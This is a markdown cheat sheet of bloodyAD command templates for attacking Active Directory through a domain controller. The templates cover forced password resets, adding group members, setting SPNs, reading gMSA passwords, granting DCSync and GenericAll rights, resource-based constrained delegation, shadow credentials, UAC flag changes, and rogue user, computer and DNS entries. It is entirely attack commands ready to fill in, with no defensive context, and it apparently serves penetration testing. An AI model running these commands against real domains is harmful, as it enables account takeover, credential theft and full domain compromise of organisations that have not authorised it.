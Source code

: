 # bloodyAD

#bloodyAD
## bloodyAD - set user password
```
bloodyAD --host <dc_fqdn> -d <domain> -u <user> <auth>  set password "<target_user>" '<new-password|Password123!>'
```

## bloodyAD - add group member
```
bloodyAD --host <dc_fqdn> -u <user> <auth> -d <domain>  add groupMember "<target-group>" "<trustee|$USER>"
```

## bloodyAD - set user spn
```
bloodyAD --host <dc_fqdn> -d <domain> -u <user> <auth>  set object "<target_user>" servicePrincipalName -v "<service>/<target-host|$DB_HOSTNAME>"
```

## bloodyAD - set user attribute
```
bloodyAD --host <dc_fqdn> -d <domain> -u <user> <auth>  set object "<target_user>" <attribute> -v '<value>'
```

## bloodyAD - read gmsa password
```
bloodyAD --dc-ip <target_ip> --host <dc_fqdn> -d <domain> -u <user> <auth>  get object "<target_user>" --attr msDS-ManagedPassword
```

## bloodyAD - get writable
```
bloodyAD --dc-ip <target_ip> --host <dc_fqdn> -d <domain> -u <user> <auth>  get writable
```

## bloodyAD - get object
```
bloodyAD --dc-ip <target_ip> --host <dc_fqdn> -d <domain> -u <user> <auth>  get object "<target-object>"
```

## bloodyAD - get trusts
```
bloodyAD --dc-ip <target_ip> --host <dc_fqdn> -d <domain> -u <user> <auth>  get trusts --transitive
```

## bloodyAD - set owner
```
bloodyAD --dc-ip <target_ip> --host <dc_fqdn> -d <domain> -u <user> <auth>  set owner "<target-object>" "<trustee>"
```

## bloodyAD - add computer
```
bloodyAD --host <dc_fqdn> -u <user> <auth> -d <domain>  add computer <hostname> <computer-password|Password123!>
```

## bloodyAD - add dcsync
```
bloodyAD --host <dc_fqdn> -u <user> <auth> -d <domain>  add dcsync <target_user>
```

## bloodyAD - add genericAll
```
bloodyAD --host <dc_fqdn> -u <user> <auth> -d <domain>  add genericAll "<target_user>" "<trustee>"
```

## bloodyad - add rbcd
```
bloodyAD --host <dc_fqdn> -u <user> <auth> -d <domain>  add rbcd "<target-object>" "<service-account>"
```

## bloodyad - add dnsRecord
```
bloodyAD --host <dc_fqdn> -u <user> <auth> -d <domain>  add dnsRecord "<dns_name>" "<dns_data>"
```

## bloodyAD - add shadow credential
```
bloodyAD --host <dc_fqdn> -u <user> <auth> -d <domain>  add shadowCredentials <target_user>
```

## bloodyAD - add uac
```
bloodyAD --host <dc_fqdn> -u <user> <auth> -d <domain>  add uac <target_user> -f <property>
```

## bloodyAD - remove uac
```
bloodyAD --host <dc_fqdn> -u <user> <auth> -d <domain>  remove uac "<target_user>" -f <property>
```

## bloodyAD - add user
```
bloodyAD --host <dc_fqdn> -u <user> <auth> -d <domain>  add user <username> <new-password|Password123!>
```

#bloodyAD #ldap
## bloodyAD - ldap query
```
bloodyAD --host <dc_fqdn> -u <user> <auth> -d <domain>  get search --filter "(<query>)" --attr "<attribute|*>" 
```

